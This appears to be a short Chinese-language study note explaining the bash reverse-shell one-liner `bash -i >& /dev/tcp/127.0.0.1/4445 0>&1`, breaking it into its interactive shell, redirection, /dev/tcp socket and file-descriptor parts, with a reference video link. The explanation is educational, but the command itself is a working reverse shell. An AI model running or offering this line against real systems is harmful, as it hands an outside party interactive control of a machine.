


# 探索 Reverse SHELL

> 在执行 `bash -i >& /dev/tcp/127.0.0.1/4445 0>&1` 时如何理解

1. `bash -i` 交互 shell
2. `>&` 重定向标准输出和错误
3.  `/dev/tcp/127.0.0.1/4445`

    > /dev/tcp/host\*\*\*/\*\*\*port : 如果 host 是一个有效的主机名或 INternet 地址，而 port 是一个端口号或者服务名称， bash 会尝试打开到相应套接字的 TCP 连接
4. `0>&1` : 将文件描述符_数字_移动到文件描述符_n_或标准输入（文件描述符 0）（如果未指定n ）。

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## 参考

* [参考视频](https://www.youtube.com/watch?v=OjkVep2EIlw)
